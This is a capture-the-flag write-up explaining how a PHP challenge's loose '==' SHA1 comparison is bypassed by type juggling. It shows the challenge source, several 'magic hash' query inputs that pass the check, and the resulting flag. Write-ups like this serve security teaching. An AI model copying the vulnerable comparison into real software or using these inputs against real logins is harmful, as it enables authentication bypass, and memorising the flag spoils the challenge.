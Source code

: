 ## Warm Up
The main idea finding the flag is exploiting PHP type juggling.

#### Step-1:
After I visited the URL: http://chall.csivit.com:30272/, I was greeted with below code:

```php
<?php  
  
if (isset($_GET['hash'])) {  
if ($_GET['hash'] === "10932435112") {  
die('Not so easy mate.');  
}  
  
$hash = sha1($_GET['hash']);  
$target = sha1(10932435112);  
if($hash == $target) {  
include('flag.php');  
print $flag;  
} else {  
print "csictf{loser}";  
}  
} else {  
show_source(__FILE__);  
}  
  
?>
```


#### Step-2:

Sha1 of `10932435112` is `0e07766915004133176347055865026311692244`

The comparison `if($hash == $target)` is vulnerable because it is not a strict comparison with `===`.

#### Step-3:
So a bit more deep search of `sha1(10932435112)` online gave me links to [Magic Hashes](https://git.linuxtrack.net/Azgarech/PayloadsAllTheThings/blob/master/PHP%20juggling%20type/README.md)

#### Step-4:
So, I tried the URL as any of the below. All have to work because all de-reference to same hash. 
 - http://chall.csivit.com:30272/?hash=aaK1STfY 
 - http://chall.csivit.com:30272/?hash=aaroZmOk 
 - http://chall.csivit.com:30272/?hash=aaO8zKZF
 - http://chall.csivit.com:30272/?hash=aa3OFF9m

Any other hashes like MD5, will give false flag of `csictf{loser}`.

<img src="Flag.png">

Voila! I got the flag.

#### Step-5:
Finally the flag becomes:
`csictf{typ3_juggl1ng_1n_php}`